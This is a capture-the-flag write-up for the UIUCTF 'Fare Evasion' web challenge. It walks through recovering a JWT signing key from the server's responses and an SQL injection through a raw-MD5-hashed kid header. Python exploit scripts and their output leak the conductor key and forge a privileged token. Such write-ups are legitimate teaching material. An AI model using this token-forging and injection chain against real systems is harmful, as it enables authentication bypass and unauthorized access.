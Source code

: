 ## Fare Evasion (370 points)

### Description

SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!

[https://fare-evasion.chal.uiuc.tf/](https://fare-evasion.chal.uiuc.tf/)

### Application analysis

The provided website is simple, primarily featuring a button that triggers a request to the `/pay` endpoint. Here's the relevant script:

```html
<script>
  async function pay() {
    // i could not get sqlite to work on the frontend :(
    /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
    */
    const r = await fetch("/pay", { method: "POST" });
    const j = await r.json();
    document.getElementById("alert").classList.add("opacity-100");
    // todo: convert md5 to hex string instead of latin1??
    document.getElementById("alert").innerText = j["message"];
    setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
  }
</script>
```
It looks like we got a hint(s) here:
- the SQLite query that is used on backend
- the encoding used on the backend

There's an `access_token` Cookie set by the server:

```
eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs
```

This resembles a JWT token. Using the [jwt_tool](https://github.com/ticarpi/jwt_tool):

```bash
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs
```

Outputs:

```
Token header values:
[+] alg = "HS256"
[+] kid = "passenger_key"
[+] typ = "JWT"

Token payload values:
[+] type = "passenger"
```

Server's response:

```json
{
    "message": "Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
    "success": false
}
```

The application's response provides the HS256 signing key and hints us to sign our own keys as passengers.

### Custom JWT

We are given the passenger JWT signing key, allowing us to craft our own JWT tokens. 
First, let's try changing the `type` in the JWT payload to `conductor`:

```python
import jwt
import requests

url = "https://fare-evasion.chal.uiuc.tf/pay"
secret = "a_boring_passenger_signing_key_?"

token = jwt.encode({"type": "conductor"}, key=secret, algorithm="HS256", headers={"kid": "passenger_key"})
response = requests.post(url, cookies={"access_token": token})
print(response.text)
```

Unfortunately, the same response. 
Let's try using the different signing key:

```python
secret = "a_boring_conductor_signing_key_?"
token = jwt.encode({"type": "conductor"}, key=secret, algorithm="HS256", headers={"kid": "passenger_key"})
response = requests.post(url, cookies={"access_token": token})
print(response.text)
```

Response:

```json
{
    "message": "Key isn't passenger or conductor. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
    "success": false
}
```

Now, playing with the `kid` header:

```python
token = jwt.encode({"type": "passenger"}, key=secret, algorithm="HS256", headers={"kid": "conductor_key"})
response = requests.post(url, cookies={"access_token": token})
print(response.text)
```

Response:

```json
{
    "message": "Sorry passenger, only conductors are allowed right now. Please sign your own tickets.",
    "success": false
}
```

### Understanding the Backend

Based on the responses, assumptions are:
- Backend validates JWT using passenger or conductor keys and the "user role" is assigned accordingly
- `kid` header is used to fetch the corresponding signing key from SQLite DB (SQL query hint) and add it to the response
- Hash digest might be wrongly encoded using `latin1`.

Recreating the backend process:

```node
const crypto = require('crypto')

let hash = crypto.createHash('md5').update('passenger_key').digest('latin1');
console.log(`SELECT * FROM keys WHERE kid = '${hash}'`);
```

Result:

```
SELECT * FROM keys WHERE kid = '_RòsÜxÉÄÅ´\ä'
```

The incorrectly encoded hash could enable SQL injection!

Testing potential string breaking the SQL query:

```python
kid = ""
while True:
    token = jwt.encode({"type": "passenger"}, key=secret, algorithm="HS256", headers={"kid": kid})
    response = requests.post(url, cookies={"access_token": token})
    if "passenger" not in response.text:
        print(kid, response.text)
        break
    kid += "a"
```

Response for empty `kid`:

```json
{
    "message": "the query contains a null character",
    "success": false
}
```

The hash of empty string indeed contains a null byte! (d41d8cd98f**00**b204e9800998ecf8427e)

### Crafting the payload

Now we know, that we need to find a string which `md5` hash could execute an SQL injection, put it as a `kid` header and we should get the conductor signing key in the response. Reversing an `md5` hash doesn't sound like a good idea (even though it's not secure algorithm and it's possible to generate collisions for years already!), so we could try to find such hash using bruteforce methods. Or... simply Google it :)

There's this 14-years old CTF writeup I found in Google that provides us with the hash that we need: https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes:

```
plaintext:  129581926211651571912466741651878684928
md5:        06da5430449f8f6f23dfc1276f722738
raw:        ?T0D??o#??'or'8.N=?
```

### Exploitation

Using the identified `kid` header value for SQL injection:

```python
token = jwt.encode({"type": "passenger"}, key=secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
response = requests.post(url, cookies={"access_token": token})
print(response.text)
```

Response:

```json
{
    "message": "Key isn't passenger or conductor. Please sign your own tickets. \nhashed ô÷uÞIB\u0005BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bRò\u001esÜxÉÄ\u0002Å´\u0012\\ä secret: a_boring_passenger_signing_key_?",
    "success": false
}
```

We got the conductor signing key! Let's use it:

```python
secret="conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
token = jwt.encode({"type": "conductor"}, key=secret, algorithm="HS256", headers={"kid": "whatever"})
response = requests.post(url, cookies={"access_token": token})
print(response.text)
```

Success! We got the flag:

```json
{
    "message": "Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}",
    "success": true
}
```

### Credits

- Louis (https://github.com/LouisAsanaka) for creating this challenge
- Christian von Kleist for the CTF writeup I used to find a solution: https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
